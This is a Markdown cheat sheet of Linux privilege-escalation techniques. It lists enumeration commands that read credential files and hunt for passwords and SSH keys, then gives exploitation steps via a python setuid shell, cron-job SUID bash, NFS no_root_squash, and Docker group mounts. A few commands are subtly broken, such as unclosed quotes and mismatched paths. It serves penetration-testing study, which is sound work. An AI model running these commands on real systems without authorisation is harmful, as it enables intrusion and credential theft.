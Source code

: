 # Linux privilege escalation

## Manual enumeration

### User

```
whoami
id
history
```

### Other Users

```
cat /etc/passwd
who
```

### Privileges

```
sudo -l
cat /etc/sudoers
```

### File system

```
pwd (current location)
echo $PATH
```

### Hostname

```
hostname
```

### OS and architecture

```
cat /etc/issue
cat /etc/*-release
uname -a
lscp
```

### Environment

```
env
```

```
ps aux
/proc/version
```

#### pspy

pspy allows you to see commands run by other users, cron jobs, etc. as they execute.

{% embed url="https://github.com/DominicBreuker/psp" %}

```
# print events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```

### Network

```
ifconfig OR ip a (interfaces)
route OR route l (routing table)
netstat -ano OR ss -anp (active connections)
arp -a
```

### Applications/patch levels/drivers/kernel modules

```
dpkg -l
lsmod (lists all kernel modules loaded)
/sbin/modinfo libata (more info on specific kernel modules - libata in this example)
```

### Readable/writeable directories

```
find / -writeable -type d 2>/dev/null
```

### Unmounted disks

```
mount
cat /etc/fstab (drives mounted at boot)
lsblk (all available disks)
```

### Sensitive files

```
history
cat /etc/passwd 
cat /etc/shadow 
cat /etc/group 
```

### Passwords

Search the file system for passwords. Try additional search terms (pass, etc.).

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

### SSH keys

Search the filesystem for SSH keys. Public keys are typically stored in the "authorized\_keys" folder, private keys are stored as "id\_rsa".

```
find / -name id_rsa* 2> /dev/null
find / -name authorized_keys* 2> /dev/null
```

## Automated tools

```
LinPeas.sh
LinEnum.sh
Linux Exploit Suggester
LinuxPrivChecker.py
```

## Exploitation paths

### SUID Files

SUID files allow individuals to execute files using the privileges of another user. They are identifiable by an "s" in the third character of the root permissions for a file. You can search manually with:

```
find / -perm -u=s -type f 2>/dev/null
```

If you find identify a SUID file, check [GTFO bins](https://gtfobins.github.io/) for exploits

### Capabilities

The exploitation for capabilities is similar to that of SUID files. Search for capabilities with:

```
getcap -r / 2>/dev/null
```

Look for "+ep" at the end of any returned items. If present, exploitation possible.

### Execution

Run Python to escalate

```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")
```

Other possibly exploitable capabilities include perl, tar, openssl (check [GTFO bins](https://gtfobins.github.io/))

### Scheduled Tasks

```
cat /etc/cron*
cat /etc/crontab
systemctl list-timers --all
```

Columns represent minute, hour, day of month, month, day of week. Asterisks in columns indicate "all", asterisks in all fields indicates that the task runs every minute/hour/day of month/month/day of week

#### Exploitation

First, check the file type using the `file` command and whether or not you have write access. Sometimes replacing the file with one created on your attacking machine is easier than modifying the file that is in place. If so, rename the current file as \*.old and use wget to replace with the version created on your attack machine.

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > script
**Wait for the job to execute, then
/tmp/bash -p
```

### NFS root squashing

Check `cat /etc/exports` for results indicating "no\_root\_squash", indicating folders that are shareable and can be mounted. If available, remote commands are executed as root.

#### Exploitation

From the attacking machine:

Search for mountable shares

```
showmount -e ipaddress
```

Create a new directory:

```
mkdir /tmp/mntme
```

Mount the folder:

```
mount -o rw, vers=2 ipaddress:/tmp /tmp/mountme
```

Create malicious file:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; /tmp/mountme/x.c
```

Compile the file:

```
gcc /tmp/mountme/x.c -o /tmp/mountme/x
```

Return to the victim machine, navigate to the target directory (/tmp), and execute the file

```
./x
```

### Docker

If you are in the Docker group, check to see which containers are available:

```
docker image ls
```

Run the image:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
